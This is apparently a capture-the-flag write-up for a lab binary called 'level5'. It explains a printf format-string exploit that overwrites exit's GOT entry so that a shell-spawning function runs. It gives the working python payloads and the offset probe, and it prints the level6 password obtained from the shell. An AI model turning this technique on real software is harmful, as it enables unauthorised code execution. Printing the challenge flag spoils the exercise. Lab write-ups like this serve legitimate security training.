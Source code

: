 `main` calls `n`, there's an `o` function but it's not called (yet).

`o` only calls `system("/bin/sh")`.

`n` calls `fgets`, `printf` then exit.

Our goal is to call the function `o` with `printf %n` exploit

the start of `o` is located at **0x80484a4** and `exit` at **0x8049838**, we will put the value of `o` inside the value of `exit` to when the `n` function finishises the `o` function will be called instead of `exit`

```
(gdb) print 0x080484a4
$1 = 134513828

disass 0x80483d0
> 0x80483d0 <exit@plt>                    jmp    *0x8049838
```

**0x8049838** is the address we want

We got everything let's cook:

`(python -c 'print("\x38\x98\x04\x08" + "%13451378c%?$$n")'; cat) | ./level5`

### WAIT where can we write this ?

Quick sanity check:
(python -c 'print("AAAA" + "%p " * 15)'; cat) | ./level5
> AAAA0x200 0xb7fd1ac0 0xb7ff37d0 **0x41414141** 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070

**4th** place

`(python -c 'print("\x38\x98\x04\x08" + "%134513824c%4$n")'; cat)  | ./level5`
[after a while]
> cat /home/user/level6/.pass
> d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31